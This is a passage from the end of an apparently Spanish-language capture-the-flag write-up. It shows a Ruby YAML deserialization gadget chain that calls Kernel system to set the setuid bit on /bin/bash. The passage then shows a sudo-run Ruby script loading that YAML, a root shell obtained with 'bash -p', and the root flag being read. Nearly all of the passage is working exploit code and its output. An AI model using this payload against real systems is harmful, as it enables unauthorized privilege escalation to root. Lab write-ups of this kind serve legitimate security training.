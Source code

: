 ```bash
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```
Ejecutemos el script y funciono somos Root
```bash
-bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb 2>/dev/null
-bash-5.1$ bash -p
bash-5.1# cat /root/root.txt 
a3e6475edd9cc6514182aca7dde0dd71
bash-5.1# 
```

Gracias por leer